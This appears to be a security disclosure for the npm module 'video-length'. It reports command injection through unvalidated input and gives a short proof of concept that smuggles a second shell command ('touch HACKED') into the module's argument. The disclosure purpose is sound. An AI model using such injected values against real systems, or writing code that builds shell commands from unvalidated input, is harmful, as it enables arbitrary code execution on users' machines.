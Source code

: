 # :bug: Description

The `video-length` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const VideoLength = require('video-length');
VideoLength('sss"; touch HACKED; #');

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i video-length # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
